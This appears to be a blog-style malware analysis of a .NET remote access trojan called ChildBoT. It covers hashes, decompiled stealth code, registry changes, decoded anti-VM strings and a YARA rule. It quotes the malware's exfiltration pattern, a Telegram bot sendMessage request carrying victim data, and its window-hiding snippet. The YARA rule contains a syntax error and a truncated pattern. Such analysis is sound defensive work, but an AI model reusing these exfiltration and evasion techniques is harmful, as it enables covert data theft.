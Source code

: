```yaml
---
  title: "ChildBoT Analysis"
  date: 2024-01-17 00:00:00 +0800
  categories: Malware Analysis
  tags: [Malware Analysis,ChildBot]
---
```


# ChildBoT Analysis

## Analysis
```
MD5:30705266725F9BAD60EA12821ACF740A
SHA256: D60BB69DA27799D822608902C59373611C18920C77887DE7489D289EBF2BD53E
```

### Virus Total 

- At VirusTotal.com, 40 out of 69 engines for AV detection mark the software as malicious.


![Alt text](image.png)

### CFF explorer

- I ran CFF explorer on the executable file to find that it is a .NET framework executable.

![Alt text](image-1.png)

- Let's fire it up inside a VM and see its activity:

### ProcMonitor

![Alt text](image-2.png)  

### Task Manager

![Alt text](image-7.png)

- I used dnSpy 32-bit version to decompile the executable file to get the csharp code of the file.


![Alt text](image-3.png)

- First of all , the malware is as usual trying to hide itself from the user hiding its window as well as not making itself visible on the taskbar using:

```
	base.Hide();
	base.WindowState = FormWindowState.Minimized;
	base.FormBorderStyle = FormBorderStyle.None;
	base.ShowInTaskbar = false;
```
- Here I first find the HttpRequest function which is trying to access an unknown host server:

```
http://icanhazip.com
```
- I sent requests to this server only to get an IP-Address: 

![Alt text](image-4.png)

- This function is trying to access the windows registry keys and modifying them

![Alt text](image-8.png)

- Registry keys acessed and modified to:

```
SOFTWARE\WOW6432Node\Clients\StartMenuInternet =>SOFTWARE\Clients\StartMenuInternet
```
- The malware tries to find the string `あใはさまゆさปありねひむよとよฃยねปむ` inside the XML documents using the XMLParser.

- The malware is sending a `GET` request to the host: `https://api.telegram.org/bot/sendMessage?chat_id=<chat_id>&text=<Victim's_Data>`

![Alt text](image-9.png)

- The malware also tries to capture the keyboard and display control using SQL Queries inside the Registy Key Editor:

![Alt text](image-12.png)

The base64 string decodes to :

```
Select * from Win32_Keyboard
```
- This function tries to make a `GET` request on:

```
http://ipinfo.io/ip
```

![Alt text](image-10.png)

and is splitting and trimming all the data received by it to get the data in raw format.
- The data received at this host address is another IP-Address:

```
122.176.193.234
```
- The function `fn_check_activity` checks all the results of the functions trying to get the info about the victim's system and use `SQLite.Interop.dll` for this.

![Alt text](image-11.png)

- It tries to find some strings inside the Registry Keys Editor in Windows system in order to modify them in favour of the attacker:

```
Microsoft Edge
IEXPLORE.EXE
```
- During my analysis I came up to witness some base64 encoded strings that were being sent to the server after some basic checks on the local system of the victim.
```
4puU77iPIERFVEVDVCBWTSxTQU5CT1g6 : {⛔️ DETECT VM,SANBOX:} 
VG8gY29udGludWUgcGxlYXNlIHdyaXRlIHRoZSBjb250ZW50OiBbSFdJRF0tU0tJUCBWTSBPciDinYwgRXhpdCAgOltIV0lEXS1FWElU : {To continue please write the content: [HWID]-SKIP VM Or ❌ Exit  :[HWID]-EXIT}
V2UgYXJlIHN0aWxsIGFjdGl2ZSB1bnRpbCB2aWN0aW1lIHNodXRzIGRvd24h : {We are still active until victime shuts down!}
 LSBNYXliZSBWTSxTYW5ib3g= : - Maybe VM,Sanbox
 LUVYSVQ= : {-EXIT}
 4p2MRVhJVCBTVUNDRVNT : {❌EXIT SUCCESS}
```

- This function makes a GET request to `
https://api.telegram.org/bot
` and try to give a form of data to a telegram bot.

![Alt text](image-5.png)

- However if the chat_id is not known.

```
{"ok":false,"error_code":404,"description":"Not Found"}
```
- The malware is using FNV hashing algorithm to hash the strings inside the malware 

![Alt text](image-6.png)

- This string is added to access the updates as got by the bot from the web server where the bot is working: `https://api.telegram.org/bot/getUpdates`

#### It is a RAT which is doing various malicious activities like: 
- Modifying Windows Registry keys
- `GET` Requests to unknown malicious websites.
- Setting up a Telegram Bot to update send the victim's private data and update it regularly.


### Yara Rules:
```
rule base64_string{
meta:
	desc = "base64 strings found decrypted."
	weight = 7
strings:
	$b1 = "SUVYUExPUkUuRVhF"
	$b2 = "TWljcm9zb2Z0IEVkZ2U="
	$b3 = "4p2MRVhJVCBTVUNDRVNT"
	$b4 = "LUVYSVQ="
	$b5 = "LSBNYXliZSBWTSxTYW5ib3g="
	$b6 = "VG8gY29udGludWUgcGxlYXNlIHdyaXRlIHRoZSBjb250ZW50OiBbSFdJRF0tU0tJUCBWTSBPciDinYwgRXhpdCAgOltIV0lEXS1FWElU"
	$b7 = "V2UgYXJlIHN0aWxsIGFjdGl2ZSB1bnRpbCB2aWN0aW1lIHNodXRzIGRvd24h"
	$b8 = "4puU77iPIERFVEVDVCBWTSxTQU5CT1g6"
	$b9 = "aHR0cDovL2lwaW5mby5pby9pcA=="
conditions:
	$b1 and $b2 and $b3 and $b4 and $b5 and $b6 and $b7 and $b8 and $b9
}
```

